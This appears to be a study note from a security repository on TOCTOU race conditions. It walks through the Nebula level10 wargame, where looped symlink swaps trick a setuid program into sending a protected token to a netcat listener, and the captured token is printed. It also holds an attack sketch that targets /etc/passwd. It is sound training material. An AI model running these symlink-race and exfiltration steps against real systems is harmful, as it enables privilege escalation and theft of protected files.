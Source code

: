 ## Race Conditions ( TOCTOU )

**Example C Code**
```
if (access("file", W_OK) != 0) {
   exit(1);
}

fd = open("file", O_WRONLY);
write(fd, buffer, sizeof(buffer));
```
1.Access Check for Write Permission
2.Open file to write
3.Write

**Attack Idea**
```
access(file,W_OK)
symlink('/etc/passwd',file)
write(file)
```
**Race Between 2 Processes**
```
1.Access check and write
2.Symlink between writable and un-writable
```
When access check, it should be writable file and when actually write it should be un-writable

**Nebula Level10** [ [Description](https://exploit-exercises.lains.space/nebula/level10/) ]

```
#Condition 1
if(access(argv[1],  R_OK)  ==  0)
#Condition 2
ffd  =  open(file,  O_RDONLY);
```
Program Permission
```
level10@nebula:~$ ls -l /home/flag10
total 9
-rwsr-x--- 1 flag10 level10 7743 2011-11-20 21:22 flag10
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token
```
token is read only file for flag10 user
```
#Test Run
level10@nebula:~$ /home/flag10/flag10
/home/flag10/flag10 file host
        sends file to host if you have access to it
#Test with readable file
echo "LOL" > test
level10@nebula:~$ /home/flag10/flag10 /home/level10/test 192.168.43.234
Connecting to 192.168.43.234:18211 .. Connected!
Sending file .. wrote file!
#Our Side
C:\Users\thinb>nc -lp 18211
.oO Oo.
LOL
#What about token?
level10@nebula:/home/flag10$ ./flag10 token 192.168.43.234
You don't have access to token
```
Race 1
```
# symlink /tmp/faketoken and /tmp/token ( All fake )
# symlink /tmp/token and /home/flag10/token ( Fake and Unreadable )
while :; do ln -fs /tmp/faketoken /tmp/token; ln -fs /home/flag10/token /tmp/token; done
```
Race 2
```
#/tmp/token is symlinking between readable and unreadable
#access check -> readable
#open -> unreadable
while :; do /home/flag10/flag10 /tmp/token 192.168.43.234 ; done
```
Result
```
C:\Users\thinb>nc -lvp 18211
listening on [any] 18211 ...
Warning: forward host lookup failed for nebula: h_errno 11001: HOST_NOT_FOUND
connect to [192.168.43.234] from nebula [192.168.43.229] 56458: HOST_NOT_FOUND
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
Race Condition on Web
[ [Link](https://www.youtube.com/watch?v=P-zrl6oyim4) ]

**Reference**
[https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
[https://nitesculucian.github.io/2018/07/16/exploit-exercises-nebula-level-10/](https://nitesculucian.github.io/2018/07/16/exploit-exercises-nebula-level-10/)
[https://seedsecuritylabs.org/Labs_16.04/Software/Race_Condition/](https://seedsecuritylabs.org/Labs_16.04/Software/Race_Condition/)
